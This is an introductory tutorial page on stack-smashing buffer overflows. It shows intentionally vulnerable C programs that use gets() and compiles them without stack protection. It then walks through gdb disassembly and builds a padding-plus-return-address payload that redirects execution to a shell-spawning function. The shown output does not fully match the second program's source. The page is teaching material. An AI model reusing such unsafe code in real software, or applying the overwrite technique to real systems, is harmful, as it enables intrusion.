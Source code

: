 
<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat vulnerableCode.c

#include<stdio.h>
#include<stdlib.h>


void dangerousFunction()  {
  printf("GIVING SHELL\n");
  system("/bin/bash");
}

void getInput() {
  char ans[12];
  printf("String is at : %p\n",ans);
  gets(ans);
  printf("String is at : %p\n",ans);
  puts(ans);
}

int main(){
  getInput();

}

user@PC-Name:~# gcc -ggdb vulnerableCode.c -o vulnerableCode -m32
user@PC-Name:~# gdb vulnerableCode
> disass main
Dump of assembler code for function main:
   0x0804844d <+0>:   push   ebp
   0x0804844e <+1>:   mov    ebp,esp
   0x08048450 <+3>:   and    esp,0xfffffff0
   0x08048453 <+6>:   sub    esp,0x20
   0x08048456 <+9>:   lea    eax,[esp+0x16]
   0x0804845a <+13>:  mov    DWORD PTR [esp],eax
   0x0804845d <+16>:  call   0x8048310 <gets@plt>
   0x08048462 <+21>:  lea    eax,[esp+0x16]
   0x08048466 <+25>:  mov    DWORD PTR [esp],eax
   0x08048469 <+28>:  call   0x8048320 <puts@plt>
   0x0804846e <+33>:  leave  
   0x0804846f <+34>:  ret    
End of assembler dump.
```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : <img src="./stackLayout.png">.
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>

char ans[10];

void dangerousFunction()  {
  system("/bin/bash");
}

void getInput() {
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 12+8+4 = 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

